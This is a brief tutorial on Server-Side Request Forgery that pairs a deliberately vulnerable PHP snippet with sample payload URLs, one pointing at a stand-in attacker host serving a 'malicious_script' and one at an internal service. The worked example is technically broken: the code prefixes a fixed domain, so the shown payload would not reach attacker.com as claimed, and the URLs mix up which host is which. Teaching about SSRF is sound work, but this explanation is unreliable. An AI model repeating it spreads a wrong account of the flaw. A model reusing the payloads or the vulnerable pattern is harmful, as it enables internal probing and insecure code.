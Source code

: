 # Server-Side Request Forgery (SSRF)

Server Side Request Forgery (SSRF) is a web application vulnerability that
allows an attacker to make requests to other systems or services that the
vulnerable application has access to. This can be used to perform attacks on
internal systems or retrieve sensitive information.

SSRF attacks occur when an application processes a user-supplied URL and makes
a request to that URL. An attacker can manipulate the URL to make the
application send requests to other systems or services that are accessible to
the application.

An example of an SSRF attack involves a web application that allows users to
upload profile pictures that are stored on a separate server. The application
uses the following code to retrieve the user's profile picture:

```php
<?php
$url = 'https://profilepictures.com/' . $_GET['picture_id'];
$data = file_get_contents($url);
echo '<img src="' . $url . '">';
?>
```

An attacker could exploit an SSRF vulnerability by providing a malicious URL
as the `picture_id` parameter, such as:

```
https://profilepictures.com/?picture_id=http://attacker.com/malicious_script
```

When the application requests the user's profile picture using the URL
provided in the `picture_id` parameter, it will make a request to
`http://attacker.com/malicious_script`. The attacker can then use this request
to launch further attacks on internal systems or retrieve sensitive
information.

For example, the attacker could modify the URL to access an internal web
service:

```
https://profilepictures.com/?picture_id=http://internal-service.local:8080
```

If the internal service is not properly secured, the attacker could
potentially access sensitive data or carry out further attacks.

SSRF attacks can be prevented by implementing proper input validation and
sanitization, as well as restricting the access that the application has to
other systems and services. Additionally, applications should be tested
thoroughly for SSRF vulnerabilities, and any discovered vulnerabilities should
be patched as soon as possible.

